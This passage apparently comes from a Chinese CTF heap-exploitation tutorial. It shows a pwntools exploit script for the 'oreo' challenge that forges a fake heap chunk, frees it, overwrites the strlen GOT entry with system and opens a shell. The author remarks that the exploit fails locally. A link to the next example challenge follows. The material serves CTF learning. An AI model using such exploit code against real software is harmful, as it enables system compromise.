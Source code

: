 ```python
    binsh_addr = libc_base + next(libc.search('/bin/sh'))

    print 'step 2. free fake chunk at 0x0804A2A8'

    #伪造fake_chunk，首先需要size值，需要大小与0x38一致，所以值应为0x40
    #这里要循环0x40次
    #将next_chunk的值改变为0x804a2a8,作为fake_chunk的入口
    oifle = 1
    while oifle < 0x3f:
        add(25*'a','a'*27 + p32(0))
        oifle += 1
    payload = 'a'*27 + p32(0x804a2a8)
    add(25*'a',payload)
    #还需要伪造next_chunk的size值，这里设置为0x100（只要在范围内即可）
    #查看0x0804a2a8的内容，为2c0,说明是从2c0处开始填充的，所以要填充0x38-0x18 =0x20
    #在填充next_chunk的prev_size为0x40
    #还要使ISMMAP为不能为1，这里为了方便全部用'\x00’填充
    #最后要使当前chunk的next指向0,这样循环只会执行1次
    """payload = 0x20*'\x00' + p32(0x40) + p32(0x100)
    payload = payload.ljust(52,'b')
    payload += p32(0)
    payload =  payload.ljust(128,'c')
    message(payload)"""
    payload = '\x00'*0x20
    payload += p32(0x40)
    payload += p32(0x20)
    message(payload)
    #free()chunk块，得到我们能进行修改的chunk
    order()
    p.recvuntil('Okay order submitted!\n')

    print 'step 3. get shell'
    #修改got表为system地址
    payload = p32(oreo.got['strlen']).ljust(20,'a')
    #将strlen函数的got表地址写到0x804a2a8上
    add(payload,'b'*20)
    log.success('system addr: ' + hex(system_addr))
    #将该地址修改为system函数的地址
    message(p32(system_addr) + ';/bin/sh\x00')

    p.interactive()

if __name__=="__main__":
    exp()
```

但是本地打不通，不知道为什么。

###### 例题2：2015 9447 CTF : Search Engine

[题目地址](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/heap/fastbin-attack/2015_9447ctf_search-engine)
